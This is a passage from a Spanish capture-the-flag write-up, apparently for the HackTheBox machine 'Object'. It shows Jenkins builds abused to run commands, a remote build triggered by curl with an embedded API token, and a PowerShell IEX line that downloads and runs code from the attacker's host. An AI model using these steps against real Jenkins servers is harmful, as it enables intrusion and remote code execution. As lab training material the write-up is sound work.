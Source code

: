 Le damos a Apply y guardar, esperamos que se cargue el comando.

![Option 1](/assets/images/Object/output_cmd.png)

Esta seria la opcion 1 de escribir comandos en jenkins, la segunda seria en lugar de ejecutar los comandos periodicamente, nos vamos a la opcion de Builder Triggers/Trigger builds remotely, tendremos que crear antes un token en la configuracion de nuestro perfil, y poner en esta parte el nombre del token que hemos puesto y asi poder tramitar la peticion del comando a traves del url de la siguiente manera:

```s
curl -s -X GET "http://rebick:116ae1c5c823ebce3c7cb088751fcef387@object.htb:8080/job/project%201/build?token=MyToken"
```

Y con exito hemos ejecutado remotamente el comando.

lo siguiente seria probar algunos comandos mas como:

```s
#Para validar si se contiene Powershell
cmd /c powershell -c "whoami"
#Para probar la comunicacion con nuestra maquina atacante solo abriremos un servidor con python y
cmd /c powershell -c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.29/test')
```

No se pudo realizar la peticion de Get al servidor, entonce lo siguiente podria ser enumerar reglas de firewall:

```s
cmd /c powershell -c Get-NetFirewallRule -Direction Outbound -Action Block -Enabled True 
```
